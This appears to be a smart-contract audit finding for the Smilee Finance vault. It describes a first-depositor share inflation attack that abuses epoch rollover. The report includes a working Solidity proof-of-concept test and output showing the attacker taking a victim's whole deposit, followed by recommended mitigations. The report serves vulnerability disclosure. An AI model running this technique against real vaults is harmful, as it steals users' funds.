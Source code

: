 Flat Pineapple Pangolin

medium

# The vault is vulnerable to the initial depositor share inflation attacks

## Summary

The vault tracks the price of shares in terms of underlying assets. The price of shares can be manipulated via donations to the vault, using the principle described here: https://docs.openzeppelin.com/contracts/4.x/erc4626#inflation-attack

## Vulnerability Detail

The simplest way how to trigger the vulnerability is to use a small initial deposit (e.g. 1 wei), followed by a large donation (e.g. `1e18`). If at this point the epoch is rolled over, the share price is then fixed, and has to be used by the depositors in the next epoch.  If the price of share `P` gets very large, then whenever a depositor in the subsequent epoch deposits asset amount `a` that is not evenly divisible by `P`, then `a % P` units of the asset will end up being "donated" to the vault. A special case is when the amount `a` is less than `P`, then all of it is donated to the vault, and no shares are minted for the new depositor.

This technique can be used by the first depositor to steal from subsequent depositors.

As long as the epoch is rolled in a state where there are few shares but many tokens in the vault, the vulnerability gets triggered. Consequently, simply requiring the that the initial deposit is above some minimum threshold is not sufficient, because the number of shares can be reduced later, by partially withdrawing.

## Impact

The impact is that:
1) Attackers can steal parts of deposits from users in the epoch after the attack, due to rounding down in favor of the existing LPs in the vault. 
2) For new users below of certain size it will be impossible to enter the vault in the epoch after the attack.

The difference between this and the "classic" version of the share price inflation attack is that in Smilee, the share price only gets fixed when then epoch is rolled over. This property makes the attack easier to mitigate.

## Code Snippet

https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/Vault.sol#L621-L622

## Proof of concept

<details>
  <summary>Test case</summary>

```solidity
    function testVaultInflationAttack() public {
        uint256 initialAliceDeposit = 1;
        uint256 donationAmount = 1e18 + 1e11;
        uint256 initialBobDeposit = 1e18;

        // Alice is the attacker, who initially deposits 1 wei
        VaultUtils.addVaultDeposit(alice, initialAliceDeposit, tokenAdmin, address(vault), vm);
        // then donates 1e18 wei + epsilon to the vault
        vm.prank(tokenAdmin);
        baseToken.mint(alice, donationAmount);
        vm.prank(alice);
        baseToken.transfer(address(vault), donationAmount);

        Utils.skipDay(true, vm);
        vm.prank(tokenAdmin);
        vault.rollEpoch();
        
        // Bob is a normal user who deposits 1e18 wei
        VaultUtils.addVaultDeposit(bob, initialBobDeposit, tokenAdmin, address(vault), vm);

        Utils.skipDay(true, vm);
        vm.prank(tokenAdmin);
        vault.rollEpoch();

        uint256 heldByUser;
        uint256 heldByVault;

        (heldByUser, heldByVault) = vault.shareBalances(alice);
        vm.prank(alice);
        vault.initiateWithdraw(heldByUser + heldByVault);

        (heldByUser, heldByVault) = vault.shareBalances(bob);
        // Bob should have no shares to withdraw
        assertEq(heldByUser + heldByVault, 0);

        Utils.skipDay(false, vm);
        vm.prank(tokenAdmin);
        vault.rollEpoch();

        vm.prank(alice);
        vault.completeWithdraw();

        // show that Alice has taken Bob's deposit
        int256 finalAmount = int256(baseToken.balanceOf(address(alice)));
        int256 initialAmount = int256(initialAliceDeposit + donationAmount); 
        int256 delta = finalAmount - initialAmount;
        console.log("Alice's income:", delta);
        assertEq(uint256(delta), initialBobDeposit); // Alice stole the full Bob's deposit
    }
```

Output:
```text
    Alice's income:  1000000000000000000
```

</details>

## Tool used

Manual Review

## Recommendation

Either require that the first depositor or the vault creator locks some fixed amount of initial shares for infinite time.
Or do not permit to roll the epoch when the price per share would end up more than a reasonable threshold. Or do not allow withdrawals when the number of remaining shares would be more than zero, but below another reasonable threshold.